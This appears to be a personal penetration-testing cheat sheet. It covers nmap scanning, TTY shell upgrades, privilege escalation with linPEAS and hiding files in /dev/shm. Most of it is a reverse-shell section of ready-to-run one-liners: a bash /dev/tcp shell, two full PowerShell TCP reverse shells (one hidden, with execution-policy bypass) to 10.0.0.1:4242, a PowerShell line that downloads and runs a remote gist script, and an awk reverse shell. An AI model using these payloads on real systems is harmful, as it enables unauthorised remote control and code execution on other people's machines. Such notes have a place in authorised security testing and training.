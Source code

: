 ### DATA COLLECTION 

```nmap -sV -sC -oA <ip> <outputfile>```

Dirb any available port 80 address

# TTY SHELL

```python -c 'import pty; pty.spawn("/bin/sh")'```

https://netsec.ws/?p=337

# IPPSEC explains terminal upgrades tty

CTRL + Z (Background process)
stty raw -echo (local term don't process tabs, send through to terminal)
fg (foreground shell)


https://youtu.be/CYeVUmOar3I?t=789

### PRIVESC 

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh

# STORE FILES IN MEM

```/dev/shm```

Upload any files to Ram disk that will clear on reboot.

## REVERSE SHELL

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell

# BASH RS

```bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'```

# Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
# Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### SHELL COMMANDS

```SHELL=/bin/bash script -q /dev/null```

Explanation for /dev/null
https://askubuntu.com/questions/306047/what-does-the-script-dev-null-do
